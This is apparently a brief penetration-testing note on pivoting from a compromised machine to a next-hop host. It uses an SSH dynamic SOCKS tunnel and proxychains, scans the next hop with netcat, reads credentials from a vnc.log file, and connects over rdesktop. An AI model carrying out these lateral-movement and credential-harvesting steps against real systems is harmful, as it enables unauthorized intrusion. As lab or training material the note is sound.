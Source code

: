 ### 02092023Sat

```
ssh -D 8090 user@IP
```

```
username and machine IP must be already compromised.
```

```
nano /etc/proxychains.conf
```

*Modifying the following **socks4** under the [ProxyList] of proxychains.conf file.*

```
socks4 127.0.0.1 8090
```

```
proxychains nc -nv compromised'sIP 80
```

```
proxychains nc -nv next-hop'sIP 445
```

*we got login credentials from vnc.log file of compromised machine.*

```
cat vnc.log
```

*Then rdesktop*

```
proxychains rdesktop next-hop'sIP
```
